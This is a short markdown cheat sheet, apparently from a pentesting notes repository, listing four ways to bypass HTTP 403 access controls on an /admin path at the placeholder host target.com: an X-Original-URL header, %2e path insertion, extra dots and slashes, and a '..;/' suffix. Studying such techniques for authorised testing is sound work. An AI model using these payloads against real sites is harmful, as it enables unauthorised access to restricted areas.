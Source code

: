 # 403 Forbidden Bypass

1. Using "X-Original-URL" header
```
GET /admin HTTP/1.1
Host: target.com
```
Try this to bypass
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

2. Appending **%2e** after the first slash
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) and slash (/) in the URL
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```

4. Add "..;/" after the directory name
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/admin..;/
```

Source: [https://twitter.com/iam_j0ker]()
